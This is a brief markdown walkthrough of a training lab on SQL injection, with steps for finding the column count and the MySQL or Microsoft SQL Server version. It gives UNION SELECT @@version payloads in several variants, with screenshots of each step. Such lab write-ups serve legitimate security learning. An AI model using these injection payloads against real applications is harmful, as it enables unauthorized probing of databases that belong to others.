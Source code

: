 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="../Images/ps1.png" width="500" height="200">

## Step 2

Check in which column we can insert

<img src="../Images/ps2.png" width="500" height="200">

Here we are able to insert in both column

<img src="../Images/ps3.png" width="500" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="../Images/ps4.png" width="500" height="200">

And we have the answer

<img src="../Images/ps5.png" width="500" height="200">

---
